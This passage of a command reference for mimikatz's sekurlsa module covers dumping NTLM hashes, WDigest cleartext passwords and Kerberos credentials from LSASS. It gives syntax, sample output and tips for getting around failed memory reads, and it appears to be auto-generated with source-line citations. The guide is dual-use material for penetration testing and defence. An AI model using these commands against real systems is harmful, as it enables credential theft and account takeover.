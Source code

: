   - Architecture mismatch errors (e.g., `ProcessorArchitecture ... != ...`) require opening the dump with the same architecture build of mimikatz.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L195-L204】

### `sekurlsa::msv`
- **Purpose:** Enumerate MSV1_0 credentials (LM/NTLM hashes, SHA1 digests, DPAPI flags).【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_msv1_0.c†L16-L118】
- **Syntax:** `sekurlsa::msv`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::msv
  Authentication Id : 0 ; 123456 (00000000:0001E240)
  Package Name (NTLM only): NTLM
  UserName : CONTOSO\alice
  NTLM     : 8846f7eaee8fb117ad06bdd830b7586c
  SHA1     : 11d6b0758fddba8861c378c2ffb437e6b92245c8
  ```
- **Potential errors & fixes:** Output lines such as `n.e. (KIWI_MSV1_0_CREDENTIALS KO)` or `kull_m_memory_copy` failures imply LSASS memory changed during reading; rerun quickly or capture a minidump for a stable snapshot.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_msv1_0.c†L72-L127】

### `sekurlsa::wdigest`
- **Purpose:** Dump cached clear-text WDigest credentials for each logon session.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_wdigest.c†L33-L70】
- **Syntax:** `sekurlsa::wdigest`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::wdigest
  Authentication Id : 0 ; 24680 (00000000:000060A8)
  UserName : CONTOSO\bob
  Password : Sup3rSecret!
  ```
- **Potential errors & fixes:** If the command prints `KO`, the module could not locate the WDigest session list—ensure the target build still stores credentials (Windows 8.1/2012 R2 and later disable it by default) or use `sekurlsa::logonPasswords` to confirm availability.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_wdigest.c†L60-L70】

### `sekurlsa::kerberos`
- **Purpose:** Retrieve Kerberos primary credentials, including smart card PIN data on supported systems.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L346-L414】
- **Syntax:** `sekurlsa::kerberos`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::kerberos
  Authentication Id : 0 ; 414141 (00000000:00065151)
  UserName : alice
  Domain   : CONTOSO.COM
  Password : (Kerberos keys, PIN, or smartcard data)
  ```
- **Potential errors & fixes:** Failures from `kull_m_memory_copy` during CSP or credential reads mean LSASS moved objects; retry immediately or fall back to an offline dump to avoid race conditions.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_kerberos.c†L391-L405】
